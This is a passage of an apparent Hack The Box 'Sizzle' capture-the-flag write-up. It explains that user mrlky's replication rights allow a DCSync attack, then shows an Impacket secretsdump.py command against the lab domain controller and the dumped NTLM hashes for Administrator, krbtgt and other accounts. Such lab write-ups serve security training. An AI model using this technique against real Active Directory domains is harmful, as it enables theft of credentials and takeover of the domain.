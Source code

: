![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sizzle/test%201.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sizzle/test%201.png)

MRLKY has both GetChanges and GetChangesAll, which is what we want to do a DCSync Attack. We can also check that by right click the path and `?Info` will reveal how to abuse it.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sizzle/Untitled%209.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sizzle/Untitled%209.png)

There are many ways to do DCSync Attack but secretsdump.py is the easiest way to do it. Here we need to give user mrlky and his password. It will dump all the hash.

```bash
root@kali:~/CTF/HTB/Boxes/Sizzle# secretsdump.py mrlky@10.10.10.103
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:296ec447eee58283143efbd5d39408c8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
amanda:1104:aad3b435b51404eeaad3b435b51404ee:7d0516ea4b6ed084f3fdf71c47d9beb3:::
mrlky:1603:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
sizzler:1604:aad3b435b51404eeaad3b435b51404ee:d79f820afad0cbc828d79e16a6f890de:::
```